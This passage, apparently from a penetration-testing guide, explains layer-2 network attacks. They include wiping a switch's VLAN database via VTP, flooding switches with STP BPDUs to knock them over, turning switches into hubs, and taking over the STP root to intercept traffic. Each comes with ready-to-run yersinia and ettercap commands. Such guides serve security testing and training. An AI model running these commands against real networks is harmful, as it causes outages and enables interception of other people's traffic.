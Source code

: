 VTP vulnerabilities are exploitable exclusively via trunk ports as VTP announcements circulate solely through them. Post-DTP attack scenarios might pivot towards VTP. Tools like Yersinia can facilitate VTP attacks, aiming to wipe out the VLAN database, effectively disrupting the network.

Note: This discussion pertains to VTP version 1 (VTPv1).

````bash
%% yersinia -G # Launch Yersinia in graphical mode ```
````

In Yersinia's graphical mode, choose the deleting all VTP vlans option to purge the VLAN database.

### STP Attacks

**If you cannot capture BPDU frames on your interfaces, it is unlikely that you will succeed in an STP attack.**

#### **STP BPDU DoS**

Sending a lot of BPDUs TCP (Topology Change Notification) or Conf (the BPDUs that are sent when the topology is created) the switches are overloaded and stop working correctly.

```bash
yersinia stp -attack 2
yersinia stp -attack 3
#Use -M to disable MAC spoofing
```

#### **STP TCP Attack**

When a TCP is sent, the CAM table of the switches will be deleted in 15s. Then, if you are sending continuously this kind of packets, the CAM table will be restarted continuously (or every 15segs) and when it is restarted, the switch behaves as a hub

```bash
yersinia stp -attack 1 #Will send 1 TCP packet and the switch should restore the CAM in 15 seconds
yersinia stp -attack 0 #Will send 1 CONF packet, nothing else will happen
```

#### **STP Root Attack**

The attacker simulates the behaviour of a switch to become the STP root of the network. Then, more data will pass through him. This is interesting when you are connected to two different switches.\
This is done by sending BPDUs CONF packets saying that the **priority** value is less than the actual priority of the actual root switch.

```bash
yersinia stp -attack 4 #Behaves like the root switch
yersinia stp -attack 5 #This will make the device behaves as a switch but will not be root
```

**If the attacker is connected to 2 switches he can be the root of the new tree and all the traffic between those switches will pass through him** (a MITM attack will be performed).

```bash
yersinia stp -attack 6 #This will cause a DoS as the layer 2 packets wont be forwarded. You can use Ettercap to forward those packets "Sniff" --> "Bridged sniffing"
ettercap -T -i eth1 -B eth2 -q #Set a bridge between 2 interfaces to forwardpackages
```
